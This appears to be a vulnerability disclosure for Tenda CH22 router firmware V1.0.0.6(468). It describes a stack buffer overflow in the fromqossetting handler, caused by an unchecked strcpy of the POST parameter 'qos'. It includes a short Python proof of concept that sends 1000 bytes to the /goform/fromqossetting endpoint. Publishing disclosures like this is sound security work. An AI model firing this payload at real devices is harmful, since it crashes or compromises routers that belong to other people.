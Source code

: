 ## Overview
Firmware download website: https://www.tenda.com.cn/download/detail-2230.html
## Affected version

CH22 V1.0.0.6(468)
## Vulnerability details

CH22 V1.0.0.6(468) firmwarehas a stack overflow vulnerability located in the `fromqossetting` function. This function accepts the `qos` parameter from a POST request. The statement `v1 = strcpy(dest, src);` leads to a buffer overflow. The user-supplied `qos` can exceed the capacity of the `dest` array, thus triggering this security vulnerability.
![[2024-08-30 171456.png]]
## POC

```python
import requests
from pwn import*

ip = "192.168.109.145"
url = "http://" + ip + "/goform/fromqossetting"
payload = b"a"*1000

data = {"op":"aaa","qos": payload}
response = requests.post(url, data=data)
print(response.text)
```
![[2024-08-30 171541.png]]